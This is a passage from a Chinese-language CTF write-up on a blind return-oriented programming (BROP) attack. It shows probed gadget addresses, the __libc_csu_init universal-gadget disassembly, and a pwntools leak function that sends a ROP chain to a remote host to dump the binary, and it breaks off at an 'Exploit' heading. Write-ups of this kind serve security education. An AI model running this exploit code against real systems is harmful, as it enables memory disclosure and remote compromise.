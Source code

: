 ```python
        brop_gadget = brop_gadget + 1
# [0x4006ce, 0x4006cf, 0x4006dd, 0x4006e2, 0x4006e7, 0x4006ec, 0x400776]
```

最后一个地址显然和之前不一样，可以判断出是 `__libc_csu_init` 上的 gadgets。然后根据偏移可以得到几条关键指令的地址，也就得到了我们的通用 gadgets：

```
.text:0000000000400700                 mov     rdx, r13
.text:0000000000400703                 mov     rsi, r14
.text:0000000000400706                 mov     edi, r15d
.text:0000000000400709                 call    qword ptr [r12+rbx*8]
.text:000000000040070D                 add     rbx, 1
.text:0000000000400711                 cmp     rbx, rbp
.text:0000000000400714                 jnz     short loc_400700
.text:0000000000400716
.text:0000000000400716 loc_400716:                             ; CODE XREF: __libc_csu_init+34↑j
.text:0000000000400716                 add     rsp, 8
.text:000000000040071A                 pop     rbx
.text:000000000040071B                 pop     rbp
.text:000000000040071C                 pop     r12
.text:000000000040071E                 pop     r13
.text:0000000000400720                 pop     r14
.text:0000000000400722                 pop     r15
.text:0000000000400724                 retn
```

拿到了通用 gadget，同时利用前面得到的 `call write`，我们可以把整个 binary 直接 dump 下来：

```python
def leak(start, length):
    elf = ''
    for i in range((length + 0xff) / 0x100):
        p = remote('34.92.37.22', 10000)
        payload = ('A' * offset + p64(pop_rdi_ret) + p64(1) + p64(pop_rsi_r15_ret) + p64(start + i * 0x100) + p64(0) + p64(call_write)).ljust(0x80, 'A')
        print repr(payload)
        print len(payload)
        p.sendafter('pwn!\n', payload)
        elf += p.recv(0x100)
        p.close()
    return elf
```

拿到程序之后，在 ida 里可以查到 `write` 的 `plt` 和 `got`，接下来就是泄漏然后 `get shell` 了。：

```
LOAD:0000000000400520 sub_400520      proc near               ; CODE XREF: sub_4006CE+28↓p
LOAD:0000000000400520                                         ; sub_4006CE+46↓p
LOAD:0000000000400520                 jmp     cs:qword_601018
LOAD:0000000000400520 sub_400520      endp
```

# Exploit
